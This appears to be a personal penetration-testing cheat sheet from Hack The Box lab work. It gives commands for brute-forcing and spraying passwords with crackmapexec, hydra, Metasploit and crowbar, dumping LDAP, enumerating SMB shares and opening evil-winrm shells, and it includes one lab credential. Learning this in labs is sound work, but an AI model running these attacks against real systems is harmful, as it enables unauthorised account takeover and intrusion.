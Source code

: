 #auth 

https://academy.hackthebox.com/storage/resources/Password-Attacks.zip

##### [[la1n-notes/Infra/services/SMB/SMB|SMB]], [[la1n-notes/Web/Injecttions/LDAP/LDAP]], [[mssql]], etc.
https://github.com/byt3bl33d3r/CrackMapExec
#CrackMapExec 
```shell
sudo apt-get -y install crackmapexec

# Dictionary-attack / Password-Spraying
crackmapexec winrm 10.129.42.197 -u user.list -p password.list
```

```shell
crackmapexec --verbose smb 10.129.42.197 -u "user" -p "password" --shares
```
#### [[la1n-notes/Infra/services/SMB/SMB|SMB]] enumeration
list shares
```bash
netexec smb 10.129.128.107  -u michael.wrightson -p Cicada$M6Corpb*@Lp#nZpsmbmap -H 10.129.128.107 --shares

nxc smb $ip -u $user -p $pwd --shares
```
#### #ldap 
Dump everything (domains/users/etc)
```bash
ldapdomaindump -u 'cicada.htb\michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' 10.129.128.107 -o dump
```


#### #evil-winrm 
#shell [[bind shell]]
to log in and get the shell:
```bash
sudo gem install evil-winrm
evil-winrm -i 10.129.42.197 -u user -p password
```

[[hydra]]
```shell-session
hydra -L user.list -P password.list ssh://10.129.42.197
```

```shell-session
 hydra -L user.list -P password.list rdp://10.129.42.197
```

```shell-session
 hydra -L user.list -P password.list smb://10.129.42.197
```

```bash
hydra -L user.list -P password.list 10.129.42.197 smb
```
##### [[RDP]]
```bash
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### Dictionary attack on [[la1n-notes/DRAFTS/SMB]] use [[metasploit]]
```shell
msfconsole -q
use auxiliary/scanner/smb/smb_login
set PASS_FILE password.list

set SMB_USER jason
set USER_FILE username.list

set stop_on_success true
set RHOST STMIP
run
```

### [[RDP]] Password Spraying
https://github.com/galkan/crowbar
Installation:
```bash
sudo apt install -y crowbar
# or
git clone https://github.com/galkan/crowbar
cd crowbar/
pip3 install -r requirements.txt
```

```bash
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
```

